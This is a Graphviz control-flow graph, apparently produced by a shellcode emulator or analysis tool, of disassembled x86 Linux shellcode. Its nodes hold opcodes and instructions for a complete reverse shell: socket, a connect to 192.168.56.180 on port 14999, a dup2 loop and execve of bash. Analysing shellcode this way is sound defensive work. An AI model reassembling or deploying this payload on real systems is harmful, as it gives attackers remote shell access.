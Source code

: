 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x90ff4f8" [shape=box, label = "0x00417000 31C0                            xor eax,eax\l0x00417002 31DB                            xor ebx,ebx\l0x00417004 31C9                            xor ecx,ecx\l0x00417006 31D2                            xor edx,edx\l0x00417008 31F6                            xor esi,esi\l0x0041700a 31FF                            xor edi,edi\l0x0041700c B066                            mov al,0x66\l0x0041700e B301                            mov bl,0x1\l0x00417010 57                              push edi\l0x00417011 53                              push ebx\l0x00417012 6A02                            push byte 0x2\l0x00417014 89E1                            mov ecx,esp\l"]
	 "0x91020d8" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417016 socket\l"]
	 "0x91021b0" [shape=box, label = "0x00417018 96                              xchg eax,esi\l0x00417019 B066                            mov al,0x66\l0x0041701b 57                              push edi\l0x0041701c 68C0A838B4                      push dword 0xb438a8c0\l0x00417021 66683A97                        push word 0x973a\l0x00417025 43                              inc ebx\l0x00417026 6653                            push bx\l0x00417028 43                              inc ebx\l0x00417029 89E1                            mov ecx,esp\l0x0041702b 6A10                            push byte 0x10\l0x0041702d 51                              push ecx\l0x0041702e 56                              push esi\l0x0041702f 89E1                            mov ecx,esp\l"]
	 "0x9102ec0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417031 connect\l"]
	 "0x9102fa0" [shape=box, label = "0x00417033 87CB                            xchg ebx,ecx\l0x00417035 87DE                            xchg esi,ebx\l0x00417037 89F8                            mov eax,edi\l"]
	 "0x91032a0" [shape=box, label = "0x00417039 B03F                            mov al,0x3f\l"]
	 "0x91033a0" [shape=box, label = "0x0041703b 49                              dec ecx\l"]
	 "0x91034a0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041703c dup2\l"]
	 "0x9103578" [shape=box, label = "0x0041703e 75                              jnz 0x1\l"]
	 "0x9103678" [shape=box, label = "0x00417040 B00B                            mov al,0xb\l0x00417042 57                              push edi\l0x00417043 6862617368                      push dword 0x68736162\l0x00417048 686E2F2F2F                      push dword 0x2f2f2f6e\l0x0041704d 682F2F6269                      push dword 0x69622f2f\l0x00417052 89E3                            mov ebx,esp\l"]
	 "0x9103c90" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417054 execve\l"]
	 "0x90ff4f8" -> "0x91020d8" [style = bold ]
	 "0x91020d8" -> "0x91021b0" [style = bold ]
	 "0x91021b0" -> "0x9102ec0" [style = bold ]
	 "0x9102ec0" -> "0x9102fa0" [style = bold ]
	 "0x9102fa0" -> "0x91032a0" [style = bold ]
	 "0x91032a0" -> "0x91033a0" [style = bold, color=orange ]
	 "0x91033a0" -> "0x91034a0" [style = bold, color=orange ]
	 "0x91034a0" -> "0x9103578" [style = bold, color=orange ]
	 "0x9103578" -> "0x91032a0" [style = bold, color=orange ]
	 "0x9103578" -> "0x9103678" [style = bold ]
	 "0x9103678" -> "0x9103c90" [style = bold ]
}